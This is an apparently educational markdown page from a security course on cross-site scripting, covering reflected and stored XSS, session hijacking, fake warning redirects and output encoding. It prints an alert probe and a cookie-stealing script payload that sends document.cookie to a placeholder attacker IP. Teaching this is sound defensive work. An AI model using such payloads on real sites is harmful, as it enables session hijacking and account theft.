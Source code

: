 ## WEB

# Cross site scripting

<div align="center">
 <video src="https://github.com/alphyos/CyberStart-2023/assets/116646389/9f1402b2-b229-4163-b1ca-36abf864d7cb" width="800" />
</div>

## XSS (Cross Site Scripting)

Here we cover the concept of cross site scripting, or as it is more
broadly known 'XSS'. It is very actively exploited as it can be a tough
vulnerability for website owners to stay on top of, and can affect many
areas of a web app. It's often caused by having poor filtering of user
provided data and allowing an attacker to get JavaScript code to execute
 in a user's browser - often providing access to their account, or
redirecting them to malicious code. It can seem like an ongoing game of
site owners cleaning XSS vulnerable output and an attacker finding
another vulnerable area, or a more creative workaround to get it working
 again.

An example vulnerable point may be a name which is part of a querystring within a URL, eg `https://example.com?name=Bob` but rather than provide "Bob" you might be able to provide malicious code instead, so the URL is `https://example.com?name=<script>alert(1);</script>`. If visiting this URL you see an alert message pop up with `1`
 as the message you can be pretty sure you found a vulnerable area. This
 is a basic example and tools exist to try 1000's of different
variations across a site to find obscure vulnerable areas.

## Session hijacking

With proof of a vulnerability and if the site has a [session cookie](CookiesAndSessions2.8.md),
 an attacker could craft a link to provide to a victim somehow (perhaps
via email or messenger), which includes injected code to steal their
session cookie value; and so will be able to 'hijack' their session. To
demonstrate this, if the JavaScript portion of the URL instead contained
 say `<script>document.location='https://1.268.3.5?data='%2bdocument.cookie</script>`
 and the attacker was listening for incoming connections on that IP,
they'd just have to wait for incoming cookie data when the victim
clicked the link. As soon as the data comes in, they can copy the
session cookie name & key value into their own browser to then have
the *same session* as the victim, effectively joining them in their session and having access to their account, personal information and more!

## Stored XSS

The above is an example of **Reflected XSS** where the server *reflects* an attack back to the user via some provided data. Another common type of XSS is **Stored XSS**.
 This is where the attacker is able to get the web app to store their
attack in a persistent store, such as a database. There's then no need
to try to send links to anyone; whoever visits the site will have it
triggered for them. One vulnerability could lead to thousands of other
users on the site being compromised.

These attacks often succeed as user's typically trust the websites
they're visiting, and don't consider that an attacker's malicious code
may be delivered to them from the site.

## Convincing redirects

Aside from joining the victim in their session to have joint access
to their account, the attacker may instead provide a link which instead
of stealing their cookie information, shows a convincing warning
message. Having an alert show on a site the victim trusts may give them
the confidence that the site is advising and helping them, and proceed
to download malware or other malicious code. If successful, the attacker
 can then use this to get a foothold on their computer.

> Browsers have gotten better at detecting XSS vulnerabilities as it's
> such a huge problem. However, website owners can protect themselves by
> running security tools to check for XSS vulnerabilities and of course
> manually confirming user provided code doesn't have XSS issues when
> output on a page.

## Cleaning user data to prevent XSS

Filtering user data when initially provided is a common approach to
preventing XSS, but it can be tricky: we may accidentally remove
characters that are valid, for example an apostrophe in the name *Tom O'Brien*, or the requirements for the sanitised data may change after the data has already been collected.

Rather than trying to filter user data on input, current best
practices instead suggests accepting user data largely as-is, knowing
that it is untrustworthy, and cleaning user data when output to the
page. This allows for much more focused cleaning depending on the
context, or where the user data is being used.

A common question is "How do you clean XSS on output?". Many
frameworks offer simple cleaning functions, but it's possible to protect
 yourself if your framework does not offer this or you don't use a
framework. While not bulletproof for all unicode character sets (e.g.
UTF-16 rather than the more common UTF-8), there are 5 contexts you
should clean within - HTML, Attribute, JavaScript, CSS and URL, each
with their own requirements. See the [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) for more info.

<div align="center">

[← Previous: 2.10 - Command injection](CommandInjection2.10.md) | [Next: 2.12 - Filters in web applications →](FiltersInWebApplications2.12.md)
:-|-:

